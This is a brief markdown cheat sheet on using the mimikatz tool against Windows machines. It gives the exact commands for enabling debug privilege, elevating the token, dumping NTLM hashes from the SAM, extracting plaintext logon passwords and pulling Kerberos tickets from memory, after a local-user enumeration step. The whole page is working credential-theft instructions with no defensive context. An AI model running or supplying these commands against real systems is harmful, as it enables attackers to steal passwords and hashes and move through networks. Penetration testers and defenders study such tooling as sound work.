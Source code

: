### mimikatz
As an early stage enumeration item, worth running: `Get-LocalUser` to enumerate local users on a machine.

To start run `.\mimikatz.exe` in a Powershell session. You'll then be dumped in an interactive session in which the commands below can be run.

Enable the `SeDebugPrivilege` access right: 
```cmd
privilege::debug
```
Elevate privilege (prerequisite for `lsadump::sam`):
```cmd
token::elevate
```
Extract all NTLM hashes from the SAM:
```cmd
lsadump::sam
```
Extract plaintext passwords from all available sources:
```cmd
sekurlsa::logonpasswords
```
Get all tickets stored in memory:
```cmd
sekurlsa::tickets
```